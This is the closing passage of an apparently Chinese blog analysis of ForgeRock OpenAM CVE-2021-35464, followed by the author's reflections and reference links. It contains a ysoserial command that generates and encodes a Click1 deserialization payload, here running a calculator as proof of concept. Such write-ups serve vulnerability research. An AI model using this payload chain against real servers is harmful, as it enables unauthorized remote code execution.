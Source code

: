 也可以直接用命令行

```
java -jar ysoserial-0.0.6-SNAPSHOT-all.jar Click1 "open -a Calculator" | (echo -ne \\x00 && cat) | base64 | tr '/+' '_-' | tr -d '='
```

# 写在最后

这次的分析很有收获，不仅是单纯的跟进整条链子，而是从一个漏洞挖掘者和安全研究的方向入手，怎么去发现的，怎么去分析的，怎么从payload倒过去找到整个人利用思路





参考链接：

https://www.anquanke.com/post/id/246660

[ForgeRock OpenAM CVE-2021-35464漏洞分析 (exp1orer.github.io)](https://exp1orer.github.io/2021/10/01/ForgeRock-OpenAM-CVE-2021-35464漏洞分析/)

https://www.anquanke.com/post/id/247357#h2-5

